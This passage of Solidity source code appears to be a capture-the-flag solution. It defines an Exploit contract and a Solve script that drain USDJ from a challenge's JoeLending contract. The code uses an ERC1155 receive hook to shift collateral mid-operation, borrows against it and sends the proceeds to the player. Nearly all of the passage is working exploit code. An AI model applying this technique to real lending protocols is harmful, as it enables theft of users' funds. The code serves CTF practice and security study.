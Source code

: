 ```solidity
        if (counter == 2) {
            JoeLending joe_lending = CHALLENGE.JOE_LENDING();
            joe_lending.safeTransferFrom(address(this), address(EXPLOIT2), id, joe_lending.balanceOf(address(this), id), "");
        }
        return bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"));
    }

    function onERC1155BatchReceived(
        address operator,
        address from,
        uint256[] calldata ids,
        uint256[] calldata values,
        bytes calldata data
    ) external returns (bytes4) {
        revert("foo2");
        return bytes4(keccak256("onERC1155BatchReceived(address,address,uint256[],uint256[],bytes)"));
    }

    function exploit(address payable player) external {
        ERC20 usdc = CHALLENGE.USDC();
        ERC20 usdt = CHALLENGE.USDT();
        ERC20 usdj = CHALLENGE.USDJ();
        ILBPair pair = CHALLENGE.PAIR_USDT_USDC();
        JoeLending joe_lending = CHALLENGE.JOE_LENDING();

        usdc.transfer(address(pair), 1000e6);
        usdt.transfer(address(pair), 1000e6);
        bytes32[] memory liquidityConfig_init = new bytes32[](1);
        liquidityConfig_init[0] = LiquidityConfigurations.encodeParams(1e18, 1e18, pair.getActiveId());
        pair.mint(address(this), liquidityConfig_init, address(this));
        uint256[] memory ids_init = new uint256[](1);
        ids_init[0] = pair.getActiveId();
        uint256[] memory amounts_init = new uint256[](1);
        pair.approveForAll(address(joe_lending), true);
        amounts_init[0] = pair.balanceOf(address(this), pair.getActiveId()) - 1000;
        joe_lending.deposit(ids_init, amounts_init);

        amounts_init[0] = 100;
        pair.batchTransferFrom(address(this), address(EXPLOIT2), ids_init, amounts_init);
        EXPLOIT2.exploit_pre();

        amounts_init[0] = 1000e18;
        joe_lending.borrow(ids_init, amounts_init);

        amounts_init[0] = 100;
        joe_lending.deposit(ids_init, amounts_init);

        usdj.transfer(player, usdj.balanceOf(address(this)));

        EXPLOIT2.exploit_post(player);
    }
}

contract Solve is CTFSolver {
    function solve(address challengeAddress, address player) internal override {
        Challenge challenge = Challenge(challengeAddress);
        ERC20 usdc = challenge.USDC();
        ERC20 usdt = challenge.USDT();

        Exploit exploit = new Exploit(challenge);
```